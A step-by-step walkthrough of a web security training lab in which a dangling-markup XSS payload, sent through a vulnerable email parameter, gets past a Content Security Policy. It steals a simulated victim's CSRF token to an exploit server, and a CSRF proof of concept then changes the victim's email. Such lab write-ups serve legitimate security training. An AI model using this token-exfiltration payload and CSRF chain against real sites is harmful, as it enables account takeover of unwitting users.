 ## 🛡️ Exploiting CSP-Protected Labs with XSS

This lab employs a strict CSP that blocks outbound requests to external websites.

To solve the lab, you first need to perform an XSS attack that bypasses the CSP and exfiltrates the CSRF token of the simulated victim user using Burp Collaborator. Then, you must change the simulated user's email address to `hacker@evil-user.net`.

You should label your vector with the word "Click" to encourage the simulated user to click on it. For example:

```html
<a href="">Click me</a>
```

You can log in to your account using the following credentials: `wiener:peter`

### Steps:

1. **Log in** to the lab using the credentials provided above.

2. **Inspect the email change functionality** and note that the `email` parameter is vulnerable to XSS.

3. **Go to the exploit server** and add the following code, replacing `YOUR.LAB.URL` and `YOUR.EXPLOIT.URL` with your lab's URL and exploit server's identifier:

   ```html
   <script>
   window.location = "https://YOUR.LAB.URL/my-account?email=%22%3E%3C/form%3E%3Cform%20action=%22https://YOUR.EXPLOIT.URL/exploit%22%3E%3Cbutton%20type=%22Submit%22%3EClick me%3C/button%3E";
   </script>
   ```

4. **Save** the exploit and then **deliver** it to the victim. If the user visits the webpage containing this malicious script and clicks the "Click me" link while still logged into the lab, their browser will send a request containing their CSRF token to your malicious website.

   ![image](https://github.com/user-attachments/assets/9e6709fe-b140-4679-9268-e09026ce1c14)

5. **Retrieve the CSRF token** from the "Logs" section on the exploit server.

   ![image](https://github.com/user-attachments/assets/c497c3dd-c94f-4096-bb9e-9be456a8090d)

6. **Enable Burp's intercept feature** and return to the lab's email change functionality. Submit a request to change the email address to any random value.

   ![image](https://github.com/user-attachments/assets/18bbc9c8-5bec-4d99-961b-583c907c4298)

7. **In Burp**, modify the intercepted request:
   - Change the `email` parameter value to `any@domain.com`.

8. **Generate a CSRF PoC**:
   - Right-click on the request and select **Engagement tools > Generate CSRF PoC**.
   - Replace the CSRF token in the request with the token you previously exfiltrated.

   ![image](https://github.com/user-attachments/assets/38710d6f-6333-453e-84b7-bd598089eec4)

9. **Regenerate the CSRF HTML**:
   - Click "Regenerate" to update the CSRF HTML with the stolen token, then click "Copy HTML" to save it to your clipboard.

10. **Cancel the request** and turn off Burp's intercept feature.

11. **Return to the exploit server** and paste the CSRF HTML into the body, overwriting the script you entered earlier.

12. **Save** the exploit and **deliver** it to the victim. The user's email address will be changed to `any@domain.com`.
